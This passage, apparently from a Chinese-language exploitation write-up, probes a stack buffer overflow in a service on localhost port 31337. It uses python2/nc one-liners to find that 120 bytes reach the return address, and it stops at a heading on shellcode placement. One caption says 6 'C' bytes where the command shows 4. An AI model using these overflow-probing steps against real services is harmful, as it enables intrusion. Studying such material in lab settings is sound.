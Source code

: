 112 个 A+8 个 B+4 个 C。RIP 地址可以被 4 个 C 覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-adc01b06dc13962497773cfe25fa0532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224831-0122a8a0-a4c7-1.png)

112 个 A+8 个 B+6 个 C，程序崩溃。RIP 地址最多可以被 4 个 C 覆盖

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-b6beb58dc5fb818bb48cefd31f65aa18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224838-051a3b44-a4c7-1.png)

从结果中可以知道：

1.  栈能存 112
2.  填充满 RBP 需要 +8 个字符
3.  120 个，没有影响到返回地址。覆盖 rip 寄存器需要在 120 处开始，且最多只能覆盖 4 个字节

#### 3.5 shellcode 位置分析
